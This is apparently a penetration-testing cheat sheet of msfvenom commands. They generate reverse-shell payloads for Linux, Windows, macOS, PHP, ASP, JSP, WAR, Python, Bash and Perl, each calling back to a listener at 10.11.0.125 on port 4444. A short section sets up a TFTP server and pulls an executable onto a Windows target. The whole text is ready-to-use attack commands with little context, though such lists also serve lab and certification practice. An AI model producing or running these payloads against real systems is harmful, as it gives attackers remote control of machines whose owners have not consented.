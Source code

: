 ## MSFVenom Payloads

**Linux**
>msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f elf > shell.elf

**Windows**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f exe > shell.exe

**Mac**
>msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f macho > shell.macho 

**PHP**
>msfvenom -p php/meterpreter_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f raw > shell.php

**ASP**
>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f asp > shell.asp

**JSP**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f raw > shell.jsp

**WAR**
>msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.125 LPORT=4444 -f war > shell.war 

**Python**
>msfvenom -p cmd/unix/reverse_python LHOST=10.11.0.125 LPORT=4444 -f raw > shell.py

**Bash**
>msfvenom -p cmd/unix/reverse_bash LHOST=10.11.0.125 LPORT=4444 -f raw > shell.sh

**Perl**
>msfvenom -p cmd/unix/reverse_perl LHOST=10.11.0.125 LPORT=4444 -f raw > shell.pl 


## File Transfers

**tftp**

Installed on Windows XP up to 2003 by default

>mkdir /tftp

>aftpd --daemon --port 69 /tftp

>cp /file/you/want /tftp

On Windows 
>tftp -i --yourIP-- get file.exe

